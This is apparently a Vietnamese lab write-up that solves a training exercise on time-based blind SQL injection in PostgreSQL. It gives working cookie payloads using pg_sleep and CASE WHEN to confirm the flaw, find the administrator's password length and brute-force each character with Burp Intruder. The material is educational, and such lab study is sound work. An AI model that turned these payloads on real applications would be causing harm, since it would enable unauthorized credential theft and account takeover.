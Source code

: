 # 🔐 Lab 15: Blind SQL injection with time delays and information retrieval

<div align="center">

![Difficulty](https://img.shields.io/badge/Difficulty-EXPERT-purple?style=for-the-badge)
![Type](https://img.shields.io/badge/Type-Blind_SQLi-red?style=for-the-badge)
![Technique](https://img.shields.io/badge/Technique-Time_Based-blue?style=for-the-badge)
![Status](https://img.shields.io/badge/Status-Solved-success?style=for-the-badge)

</div>

---

## 📋 Mô tả

> **⚠️ Lỗ hổng:** Blind SQL Injection với Time-based Technique

Lab này chứa lỗ hổng **Blind SQL injection**. Ứng dụng sử dụng tracking cookie để phân tích và thực hiện truy vấn SQL với giá trị cookie được gửi lên.

### 🔍 Đặc điểm của lỗ hổng:

- ❌ Kết quả của truy vấn SQL **không được trả về**
- ❌ Ứng dụng **không phản hồi khác nhau** dựa trên việc truy vấn có trả về hàng nào hay gây ra lỗi
- ✅ Truy vấn được thực thi **đồng bộ** → có thể kích hoạt **time delay có điều kiện** để suy luận thông tin

### 🗄️ Thông tin Database:

| Bảng | Cột | Mô tả |
|------|-----|-------|
| `users` | `username` | Tên đăng nhập |
| `users` | `password` | Mật khẩu |

### 🎯 Mục tiêu:

```
🔓 Khai thác lỗ hổng Blind SQL injection
📊 Trích xuất password của user 'administrator' 
🚪 Đăng nhập thành công với tài khoản administrator
```

---

## Cách thực hiện

### Bước 1: Kiểm tra lỗ hổng với Time Delay cơ bản

Truy cập trang web và sử dụng Burp Suite để chặn request chứa TrackingId cookie.

![Intercept request](images/1.png)

Thử nghiệm với payload kiểm tra điều kiện đúng (1=1):

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

![Test condition true](images/2.png)

Ứng dụng mất khoảng 10 giây để phản hồi, xác nhận lỗ hổng tồn tại.

### Bước 2: Kiểm tra điều kiện sai

Thay đổi payload để kiểm tra điều kiện sai (1=2):

```
TrackingId=x';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

![Test condition false](images/4.png)

Ứng dụng phản hồi ngay lập tức, không có time delay.

### Bước 3: Xác nhận user 'administrator' tồn tại

Sử dụng payload để kiểm tra sự tồn tại của user administrator:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![Check admin exists](images/5.png)

Có time delay 10 giây, xác nhận user administrator tồn tại.

### Bước 4: Xác định độ dài password

Bắt đầu kiểm tra độ dài password với các giá trị tăng dần:

Thử với LENGTH(password)>1:
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![Test password length](images/6.png)

Tiếp tục thử với các giá trị lớn hơn (>2, >3, >4...) cho đến khi không còn time delay.

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
![Password length found](images/8.png)
![Password length found](images/7.png)

Khi thử LENGTH(password)>20 không có delay nhưng LENGTH(password)>19 có delay, ta xác định password có độ dài 20 ký tự.

### Bước 5: Cấu hình Burp Intruder để brute-force password

Gửi request tới Burp Intruder (chuột phải → Send to Intruder).

Trong tab Positions, thiết lập payload:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![Send to Intruder](images/9.png)

### Bước 6: Cấu hình Payloads
Chọn **cluster bomb attack**
Trong tab Payloads:
1. Chọn Numbers: từ 1 - 20 , step: 1
2. Chọn burp forcer: từ a-z. 0-9

![Payload configuration](images/10.png)
![Payload configuration](images/11.png)

### Bước 8: Chạy attack

Click "Start attack" để bắt đầu.

![Attack running](images/12.png)

Quan sát cột "Response received" hoặc "Response completed" để tìm request có thời gian phản hồi khoảng 10000ms.

### Bước 9: Đăng nhập với tài khoản administrator

Sau khi thu thập đủ 20 ký tự, ghép chúng lại thành password hoàn chỉnh.

Click "My account" để mở trang đăng nhập.

Nhập:
- Username: `administrator`
- Password: [password_vừa_tìm_được]

![Login success](images/13.png)

